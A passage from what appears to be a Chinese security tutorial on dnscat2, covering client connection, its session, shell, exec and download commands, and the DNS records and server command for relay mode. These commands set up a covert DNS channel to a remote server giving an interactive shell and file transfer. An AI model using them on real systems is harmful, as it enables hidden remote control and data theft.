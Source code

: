 **启动客户端**，这里以 Windows 下的 exe 版为例

```
dnscat --dns server=172.16.214.50,port=553 --secret=teamssix
```

连接成功后，会提示 `Session established!`

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2GlucOhEicFG697PGwkD9OzibPjOTGAGicoIwXQnpgwNWtUd0ia3bRgmeVA/640?wx_fmt=png)

dnscat2 的一些命令

```
sessions 或 windows           查看当前会话
session -i 1 或 window -i 1   进入 ID 为 1 的会话
shell       建立交互式会话
exec        远程打开程序
download    下载文件
help        查看支持的命令
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2gzPcuaibhw9ibGiadRTlKn52ia7HDk5FW0W31rsdzbuLfkmD4hDRAn8e9w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2YV3PhjDdcia02bmkBU6z37rcarAEEGxZBib4CorCDYok1voraFM6Ka4w/640?wx_fmt=png)

抓下包，看看流量是什么样子的

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2apqsJzvemh5ObjJLNMv4W3VnsqdETwQx1hLVFxMjqoDPiag0ribW9LbQ/640?wx_fmt=png)

不难看出，流量中有很多 dnscat 的字样，这样一来，虽然使用了 dns 协议，但是隐蔽性还是差了不少，接下来看看中继模式。

2、中继模式
------

在中继模式下，需要自己有一个域名，并添加两条域名解析记录。

首先创建一条 A 记录指向自己的公网 VPS 地址，之后创建一条 ns 记录指向 A 记录的子域名，示例如下：

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2JuUvzeqhUAgCiacKSjeJ7pqSs2Xx5gKWopkCr4xeulIl63GYx5j9icgQ/640?wx_fmt=png)

如果想要判断自己的解析记录是否设置成功，可以通过以下方法进行判断。

A 记录：直接通过 nslookup 进行判断，如果解析出了 IP 说明该项配置正确。

```
nslookup ns1.teamssix.com
```

ns 记录：在公网 VPS 上开启抓包，再`nslookup dc.teamssix.com`，如果在 VPS 上看到对应的流量记录，说明该项配置正确。

```
sudo tcpdump -n -i eth0 udp dst port 53
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzAfudmX1N9zlN2eKSPNrNd2w5NzLpM8pWhGVwJrIeDelYgA2TLJn1ib7njeDWIXfugNaoNGlnc2zRQ/640?wx_fmt=png)

**开启服务端**

```
sudo ruby dnscat2.rb dc.teamssix.com -c teamssix --no-cache -e open
```
